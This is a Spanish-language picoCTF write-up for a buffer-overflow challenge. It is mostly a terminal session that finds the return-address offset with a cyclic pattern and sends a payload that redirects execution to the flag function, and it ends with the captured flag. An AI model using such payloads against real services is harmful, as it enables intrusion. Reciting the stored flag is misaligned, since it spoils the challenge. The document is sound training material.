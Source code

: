 ## Descripcipción

Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/185/vuln).You can view source [here](https://artifacts.picoctf.net/c/185/vuln.c). And connect with it using `nc saturn.picoctf.net 51087`
## Pistas

(None)
## Solucion

```
┌──(kali㉿kali)-[~/Documents/otros]
└─$ nc saturn.picoctf.net 63904
Please enter your string: 
sdjhkajshfkjdahfdfajhf ahafklahfd
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
                                                                                                                                                                       
┌──(kali㉿kali)-[~/Documents/otros]
└─$ echo'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa' | nc saturn.picoctf.net 63904
echoaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa: command not found

^C
                                                                                                                                                                       
┌──(kali㉿kali)-[~/Documents/otros]
└─$ echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa' | nc saturn.picoctf.net 63904
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
                                                                                                                                                                       
┌──(kali㉿kali)-[~/Documents/otros]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | nc saturn.picoctf.net 63904
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_a8284f4f}
```

## Bandera
picoCTF{addr3ss3s_ar3_3asy_a8284f4f}

